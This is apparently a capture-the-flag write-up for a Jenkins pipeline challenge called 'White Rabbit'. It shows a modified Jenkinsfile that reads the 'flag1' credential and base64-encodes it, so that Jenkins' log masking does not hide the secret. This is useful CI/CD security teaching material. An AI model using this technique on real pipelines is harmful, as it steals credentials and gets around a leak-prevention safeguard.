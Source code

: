 # White Rabbit

Our git user `thealice` has write access to the `Wonderland/white-rabbit` repository, so we can directly mess with the Jenkinsfile, commit it and have the pipeline run.

The solution is easy enough, we just need to dump out the contents of the `flag1` credential. We need to obfuscate the output so Jenkins doesn't censor the token we're after(its default behavior to prevent credential leakage in logs, console output etc). For simplicity I simply did this at the beginning of the first step of the first stage, after placing the value into the environment:

```jenkinsfile
  pipeline {
    agent any
    environment {
        PROJECT = "src/urllib3"
        FLAG1 = credentials('flag1')
    }

    stages {
        stage ('Install_Requirements') {
            steps {
                sh """
                    echo $FLAG1 | base64
                    virtualenv venv
                    pip3 install -r requirements.txt || true
                """
            }
        }
....................
```



